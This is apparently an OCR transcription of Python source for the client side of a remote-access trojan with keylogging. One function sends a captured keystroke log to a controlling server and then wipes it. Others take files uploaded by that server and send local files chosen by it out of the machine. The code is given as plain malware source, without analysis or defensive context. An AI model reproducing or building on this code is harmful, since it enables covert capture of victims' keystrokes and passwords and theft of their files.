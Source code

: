 # Send keylog data to server
def send_keylog(client_socket):
    try:
        if not os.path.exists(KEYLOG_FILE):
            with open(KEYLOG_FILE, "w", encoding="utf-8"):
                pass
        with open(KEYLOG_FILE, "r", encoding="utf-8") as f:
            data = f.read()
        client_socket.sendall(data.encode("utf-8") + EOF_MARKER.encode())
        open(KEYLOG_FILE, "w", encoding="utf-8").close()
    except Exception as e:
        try:
            client_socket.sendall(f"Keylog error: {e}\n{END_RESULT}".encode())
        except Exception:
            pass

# Receive file from server (upload)
def receive_file(client_socket, filename):
    try:
        client_socket.sendall("READY".encode())
        with open(filename, "wb") as f:
            while True:
                chunk = client_socket.recv(CHUNK_SIZE)
                if chunk.endswith(EOF_MARKER.encode()):
                    f.write(chunk[:-len(EOF_MARKER)])
                    break
                f.write(chunk)
        client_socket.sendall(f"File '{filename}' received and saved.\n{END_RESULT}".encode())
    except Exception as e:
        client_socket.sendall(f"Failed to receive file '{filename}': {e}\n{END_RESULT}".encode())

# Send file to server (download)
def send_file(client_socket, filepath):
    try:
        if os.path.exists(filepath) and os.path.isfile(filepath):
            client_socket.sendall("READY".encode())
            time.sleep(0.5)
            with open(filepath, "rb") as file:
                while True:
                    chunk = file.read(CHUNK_SIZE)
                    if not chunk:
                        break
                    client_socket.sendall(chunk)
                client_socket.sendall(EOF_MARKER.encode())
        else:
            client_socket.sendall("NOFILE".encode())
    except Exception:
        try:
            client_socket.sendall("NOFILE".encode())
        except Exception:
            pass
